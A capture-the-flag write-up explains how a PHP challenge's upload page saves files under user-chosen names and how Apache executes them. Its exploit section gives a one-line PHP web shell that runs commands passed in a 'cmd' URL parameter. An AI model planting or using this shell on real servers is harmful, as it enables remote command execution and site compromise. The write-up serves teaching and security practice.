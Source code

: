 # Upload 0

## Write-up

The source code is provided for this challenge, we see that we have a PHP web application with an upload feature. The source code shows through the page `upload.php` that the user is being created a directory in which the uploaded file is directly moved to the new direcotry conserving the filename that the user has given it without any verification.
By looking at the docker image, we can find that the apache configuration executes PHP within files with extension `.php`. 
So, uploading a file with any PHP code and naming the file `something.php` will result in executing the PHP code inside it.

## Exploit
1. Upload a file named `x.php` with following content 
```php 
<?php passthru($_GET['cmd']); ?>
```
2. Once the file uploaded we get the answer from the server indicating its path, once we have its path we pass any command in `cmd` URL parameter and the command gets excuted
![exploit](./images/screen.png)
